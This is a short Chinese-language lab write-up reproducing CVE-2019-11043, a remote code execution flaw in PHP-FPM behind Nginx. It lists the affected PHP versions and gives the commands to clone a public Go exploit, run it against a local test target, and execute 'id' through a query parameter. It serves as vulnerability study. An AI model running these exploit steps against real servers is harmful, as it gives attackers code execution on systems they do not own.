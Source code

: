 php 远程代码执行 (CVE-2019-11043)

描述: PHP即“超文本预处理器”，是在服务器端执行的脚本语言，尤其适用于Web开发并可嵌入HTML中。PHP语法利用了C、Java和Perl，该语言的主要目标是允许web开发人员快速编写动态网页。 该漏洞位于PHP-FPM模块的env_path_info函数，漏洞实际上是有个内存下溢破坏漏洞，攻击者利用该漏洞结合其他漏洞利用可以让攻击者在有漏洞的web网站上执行任意代码。

在 Nginx PHP-FPM 环境下，当启用了上述 Nginx 配置后，以下 PHP 版本受本次漏洞影响：
PHP 7.0 
PHP 7.1 
PHP 7.2 
PHP 7.3 

复现

攻击机是kali，攻击脚本是go语言写的所以要有go环境

我的go环境没改，只能通过source /etc/profile运行go

![image-20211121201728802](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211121201728802.png)

从github上下载exp、

```javascript
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
```

go run . "http://192.168.1.192:57011/index.php"

?a=id

![image-20211121202655949](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211121202655949.png)

![image-20211121202732491](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211121202732491.png)

